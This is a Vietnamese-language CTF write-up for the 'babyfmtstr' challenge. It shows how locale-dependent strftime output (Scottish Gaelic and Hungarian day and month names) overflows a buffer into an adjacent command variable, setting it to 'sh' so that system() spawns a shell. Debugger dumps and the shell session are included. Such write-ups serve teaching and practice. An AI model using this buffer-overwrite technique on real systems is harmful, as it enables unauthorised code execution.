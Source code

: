 # write up babyfmtstr - fmtstr locale battle 
- first em sẽ đươc phép nhập format nhưng là format trong locale của libc nên khi qua hàm strftime nó sẽ được chuyển thành định dạng thời gian như ngày giờ, nên format string không sử dụng được như tên bài
```assembly 
00:0000│  0x5555555580e0 (output) ◂— '04/21/2404/21/2404/21/2404/21/2404/21/24%%%%%'
01:0008│  0x5555555580e8 (output+8) ◂— '04/21/2404/21/2404/21/2404/21/24%%%%%'
02:0010│  0x5555555580f0 (output+16) ◂— '04/21/2404/21/2404/21/24%%%%%'
03:0018│  0x5555555580f8 (output+24) ◂— '04/21/2404/21/24%%%%%'
04:0020│  0x555555558100 (command) ◂— '04/21/24%%%%%'
05:0028│  0x555555558108 (command+8) ◂— 0x2525252525 /* '%%%%%' */
06:0030│  0x555555558110 (command+16) ◂— 0x0
07:0038│  0x555555558118 (command+24) ◂— 0x0
```
- tiếp theo ta sẽ có hàm memcpy trong chương trình sẽ copy biến buff chứa những gì được chuyển đổi từ hàm strftime sang biến output, nhưng biến output chỉ có 0x20 bytes mà nó copy tới 0x30 nên buff xảy ra và lọt xuống biến chứa command sẽ được thực thi ở sau cùng, chính vì vậy khi em nhập format ngày giờ phải chọn đúng thì mới có thể overwrite được biến command thành sh để có shell
- vậy mục tiêu là ghi sh vào biến command vì nó là command ngắn nhất để lấy shell
```c
char output[0x20];
char command[0x20];
```
ở đây khi nhập format %A in tên ngày trong tuần thì nó chỉ có Sunday theo thời gian thực 
```bash
Welcome to international time converter!
Menu:
1. Print time
2. Change language
3. Exit
> 1
The time now is 1713717621.
Enter format specifier: %A
Formatted: Sunday
```
- khi dịch Sunday sang nhiều thứ tiếng khác nhau thì khả năng có rất nhiều thứ tiếng sẽ có chữ s và h ở cuối vì vậy cần chọn cho thích hợp 
- Sẽ có 2 chữ có chữ s và chữ h trong chuỗi và ở vị trí thích hợp:
1. Didòmhnaic[h] tương ứng với sunday trong tiếng anh format %A
2. áprili[s] tương ứng với April trong tiếng anh format %B
- có thể sẽ mất nhiều thời gian để tìm, và cũng có thể vào 1 ngày khác trong tương lai sẽ có 1 ngày như vậy, với bài này chỉ dùng được cho chủ nhật vì hiện tại người làm đang ở ngày chủ nhật 
```bash
In [13]: hex(u64(b"aaprilis"))
Out[13]: '0x73696c6972706161'
```
```bash
In [10]: hex(u64(b"ilisaich"))
Out[10]: '0x6863696173696c69'
```
- khi đổi sang hex thì sẽ có được 2 bytes cuối là 0x68 và 0x73 ghép lại là 0x6873 chính là chữ "sh"

```bash
In [5]: hex(u16(b"sh"))
Out[5]: '0x6873'
```
- vì vậy ta chỉ cần overwrite 2 bytes cuối là có thể thực thi command
- vì vậy lần đầu overwrite ta sẽ chọn chữ số 1 để overwrite 

```assembly
pwndbg> tel &output
00:0000│  0x5555555580e0 (output) ◂— 0x34322f31322f3430 ('04/21/24')
01:0008│  0x5555555580e8 (output+8) ◂— 0x34322f31322f3430 ('04/21/24')
02:0010│  0x5555555580f0 (output+16) ◂— 0x6944252525252525 ('%%%%%%Di')
03:0018│  0x5555555580f8 (output+24) ◂— 0x69616e686db2c344
04:0020│  0x555555558100 (command) ◂— 0x6863 /* 'ch' */
```
- để write được thì cần padding thích hợp sao cho chữ bytes cuối là chữ h rơi vào chữ l của command ban đầu 

```assembly
pwndbg> tel &output
00:0000│  0x5555555580e0 (output) ◂— 0x34322f31322f3430 ('04/21/24')
01:0008│  0x5555555580e8 (output+8) ◂— 0x34322f31322f3430 ('04/21/24')
02:0010│  0x5555555580f0 (output+16) ◂— 0x34322f31322f3430 ('04/21/24')
03:0018│  0x5555555580f8 (output+24) ◂— 0x696c697270a1c325
04:0020│  0x555555558100 (command) ◂— 0x6873 /* 'sh' */
```
- tiếp theo padding nốt 1 byte còn lại là 0x73 vào là xong, ta được chuỗi sh, khi chạy command sẽ tạo ra được shell
- khi chọn option 3 thì vòng lặp while đưa chương trình vào hàm goodbye và thực thi system 
```bash

Welcome to international time converter!
Menu:
1. Print time
2. Change language
3. Exit
> $ 3
[DEBUG] Sent 0x2 bytes:
    b'3\n'
[DEBUG] Received 0x8 bytes:
    00000000  41 64 69 c3  b3 73 21 0a                            │Adi·│·s!·│
    00000008
Adiós!
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x67 bytes:
    b'Dockerfile\t      fmtstr\tfmtstr.i64  fmtstr_patched\n'
    b'dist-baby-fmtstr.zip  fmtstr.c\tfmtstr.md   solve.py\n'
Dockerfile          fmtstr    fmtstr.i64  fmtstr_patched
dist-baby-fmtstr.zip  fmtstr.c    fmtstr.md   solve.py
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x67 bytes:
    b'Dockerfile\t      fmtstr\tfmtstr.i64  fmtstr_patched\n'
    b'dist-baby-fmtstr.zip  fmtstr.c\tfmtstr.md   solve.py\n'
Dockerfile          fmtstr    fmtstr.i64  fmtstr_patched
dist-baby-fmtstr.zip  fmtstr.c    fmtstr.md   solve.py
$  

```
## cách có được locale của 2 ngôn ngữ sử dụng
- đầu tiên edit file /etc/locale.gen uncomment 2 locales 
```bash
#gd_GB.UTF-8... done
#hu_HU.UTF-8... done

```
- gen locale
```bash
🍎 >> sudo locale-gen 
Generating locales...
  gd_GB.UTF-8... done
  hu_HU.UTF-8... done
Generation complete.

```
- check locale
```bash
🍎 >> localectl list-locales
C.UTF-8
gd_GB.UTF-8
hu_HU.UTF-8
```
```bash
[DEBUG] Received 0x12 bytes:
    b'Enter new locale: '
[DEBUG] Sent 0xb bytes:
    b'gd_GB.utf8\n'
[DEBUG] Received 0x78 bytes:
    b'Locale changed successfully!\n'
```



